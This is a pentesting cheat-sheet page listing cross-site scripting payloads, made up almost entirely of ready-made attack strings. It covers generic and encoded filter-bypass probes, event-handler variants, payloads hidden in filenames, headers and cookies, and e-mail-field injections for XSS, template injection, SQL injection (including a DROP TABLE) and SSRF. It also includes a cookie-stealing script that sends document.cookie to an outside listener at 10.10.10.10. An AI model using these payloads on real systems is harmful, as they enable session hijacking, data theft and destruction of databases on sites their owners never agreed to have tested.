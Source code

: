 ```yaml
---
title : "Cross-Site Scripting (XSS)"
pre : '<i class="fab fa-js"></i> '
description : "Cross-Site-Scripting payloads."
date : 2021-12-07T17:10:24+01:00
# hidden : true
# draft : true
weight : 31
# tags : ['']
---
```


---

## Test Characters

```plain
"
;
<
>
```

## Generic

```plain
<Svg/Onload=1
c5obc'+alert(1)+'p7yd5
<svg onload=alert(1)>
<script>alert(1)</script>
<</p>iframe src=javascript:alert()//
<script>alert('PoC')</script>
"><script>alert('XSS')</script>
"><script>alert(document.domain)</script>
"><img src=x onerror="alert(document.domain)">
<scr ipt>ale rt (1) </scr ipt>
%3cscript>alert('PoC')</script>
%25%33%63script>alert('PoC')</script>
&#x3c;script>alert('PoC')</script>
</script><script>alert(1)</script>
["</script><script>alert(1)</script>"]
<a href="x">test</a>
<img src=x />
<img src=x onerror="alert(1);" />
&#x3c;script>alert(1)&#x3c;/script>
<img src=x onerror="alert(document.cookie);" />
<iframe/onload='this["src"]="javas&Tab;cript:al"+"ert``"';><
<a href="javascript:alert('PoC')">Click me</a>
<p><script>alert(1)</script></p>
<i nput type="text" id="search-text" name="query" value="" onfocus="alert(1)" autofocus="" />
draggable=true ondragstart="alert(1)
<IMG SRC=1 ONERROR=&#X61;&#X6C;&#X65;&#X72;&#X74;(1)>
<SVG ONLOAD=&#97&#108&#101&#114&#116(1)>
<</div>script</div>>alert()<</div>/script</div>>
"><a href=j<TAB><NEWLINE><TAB><NEWLINE><TAB><NEWLINE>avascript:confirm("payload")>XSSs</a>
```

### Content injection

In the example below, set up a NetCat listener on port 80 `sudo nc -nlvp 80`. This listener will receive a connection on success.

```plain
<iframe src=http://10.10.10.10/report height="O" width="O"></iframe>
```

### Cookie Stealing

In the example below, set up a NetCat listener on port 80 `sudo nc -nlvp 80`. This listener will receive a connection on success.

```plain
<script>new Image().src="http://10.10.10.10/nothinghere.jpg?output="+document.cookie;</script>
```

### WAF bypass

```plain
%09%0d%0a%09%0d%0a%09%0d%0a%09%0d%0a%09%0d%0a%09%0d%0a%09%0d%0a%09%0d%0a%09%0d%0a%09%0d%0a%09%0d%0a%09%0d%0a%09%0d%0a
```

### XSS in filename

```plain
<img src=x onerror=alert('XSS')>.png
"><img src=x onerror=alert('XSS')>.png
"><svg onmouseover=alert(1)>.svg
<<script>alert('xss')<!--a-->a.png
```

### Host header

```plain
"> <script>alert(1)</script>
```

### Chrome and FireFox

Standard

```plain
<script>alert(1)</script>
<a href="javascript:alert(1)">XSS</a>
<a href="JaVaScript:alert(1)">XSS</a>
<iframe src="javascript:alert(1)">
<script src="data:text/javascript,alert(1)"></script>
<svg><use href="data:image/svg+xml,<svg id='x' xmlns='http://www.w3.org/2000/svg' xmlns:xlink='http://www.w3.org/1999/xlink' width='100' height='100'><a xlink:href='javascript:alert(1)'><rect x='0' y='0' width='100' height='100' /></a></svg>#x"></use></svg>
```

onclick

```plain
<a onclick="alert(1)">test</a>
<body onclick="alert(1)">test</body>
<textarea onclick="alert(1)">test</textarea>
<p onclick="alert(1)">test</p>
<svg onclick="alert(1)">test</svg>
<iframe onclick="alert(1)">test</iframe>
```

onmouseover

```plain
<a onmouseover="alert(1)">test</a>
<body onmouseover="alert(1)">test</body>
<p onmouseover="alert(1)">test</p>
<svg onmouseover="alert(1)">test</svg>
```

onload

```plain
<body onload=alert(1)>
<svg onload=alert(1)>
<iframe onload=alert(1)></iframe>
```

onerror

```plain
<image src/onerror=alert(1)>
<img src/onerror=alert(1)>
<script onerror=alert(1) src=/></script>
<body onerror=alert(1) onload=/>
```

### DOM-based

```plain
javascript:alert(¨DOM")
"><script>alert(document.cookie)</script>
alert(1)
alert(document.cookie)
#<script>alert('xss')</script>
```

### User-agent

```plain
</SCript><svG/onLoad=alert(document.domain)>
```

### XSS in cookie header

```plain
Cookie: PHPSESSID=hd<script>alert(document.cookie)</script>np5
```

## E-mail recipient payloads

### XSS

```plain
test+(<script>alert(0)</script>)@example.com
test@example(<script>alert(0)</script>).com
"<script>alert(0)</script>"@example.com
```

### Template injection

```plain
"<= 7 * 7 %>"@example.com
test+(${{7*7}} )@example.com
```

### SQL Injection

```plain
"' OR 1=1 -- '"@example.com
"mail'); DROP TABLE users;--"@example.com
```

### SSRF

```plain
john.doe@abc123.burpcollaborator.net
john.doe@[127.0.0.1]
```

### Parameter pollution

```plain
victim&email=attacker@example.com
```

## URL List

- [Portswigger.net Cheatsheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)
